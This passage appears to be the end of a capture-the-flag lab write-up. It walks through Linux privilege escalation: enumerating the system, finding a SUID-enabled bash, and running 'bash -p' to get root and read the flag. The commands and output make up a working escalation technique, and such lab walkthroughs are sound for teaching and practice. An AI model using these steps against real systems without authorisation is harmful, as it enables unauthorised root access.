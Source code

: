 ## Privilege Escalation

Now lets start to enumerate! I followed this linux [cheat sheet](https://github.com/rmusser01/Infosec_Reference/blob/master/Draft/Cheat%20sheets%20reference%20pages%20Checklists%20-/Linux/cheat%20sheet%20Basic%20Linux%20Privilege%20Escalation.txt). 

1. What's the distribution type? What version?: Ubuntu 22.04.5 LTS
2. What's the Kernel version? Is it 64-bit?  5.15.0-131-generic  x86_64 x86_64 x86_64 GNU/Linux
3. What can be learnt from the environmental variables? Nothing interesting
4. Applications & Services? Nothing interesting

What applications are installed? What version are they? Are they currently running?
In the `/usr/bin/` directory the bash file has the SUID bit set. 

A great description of SUID can be found on [scaler.com](https://www.scaler.com/topics/special-permissions-in-linux/):
* SUID, short for Set User ID, is a special permission that can be assigned to executable files. When an executable file has the SUID permission enabled, it allows users who execute the file to temporarily assume the privileges of the file's owner.


To find a full list of SUID binaries check [gtfobins](https://gtfobins.github.io/). 

```
bash-5.1$ ls -l /usr/bin/bash
-rwsr-xr-x 1 root root 1396520 Mar 14  2024 /usr/bin/bash
```

We can exploit this my simply passing `-p` to bash.
```
bash-5.1$ /usr/bin/bash -p
bash-5.1# id
uid=1000(developer) gid=1000(developer) euid=0(root) groups=1000(developer)
bash-5.1#
```

and now just like that we have the root flag.
```
bash-5.1# cd /root/
bash-5.1# ls
cleanup.sh  images  revert.sh  root.txt  snap
bash-5.1# cat root.txt
b14d879ff477.....
```

## Conclusion
In conclusion we utilized directory traversal, information disclose and weak passwords to gain initial access, then we found a SUID binary to escalate our privileges to root. 
